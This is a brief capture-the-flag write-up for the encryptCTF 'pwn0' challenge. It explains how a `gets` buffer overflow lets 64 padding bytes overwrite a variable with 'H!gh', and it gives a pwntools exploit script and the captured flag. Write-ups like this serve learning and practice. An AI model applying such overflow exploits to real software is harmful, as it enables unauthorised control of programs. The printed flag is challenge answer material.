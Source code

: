 # 🔑 Write-Up

We see that is used `gets` to read the string. We can exploit this fact to overwrite the `josh` variable with the required string `H!gh`.

```python
from pwn import *

context.binary = "./pwn0"

p = process()
p.sendline(b"A" * 64 + b"H!gh")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

### 🚩 Flag

```plain
encryptCTF{L3t5_R4!53_7h3_J05H}
```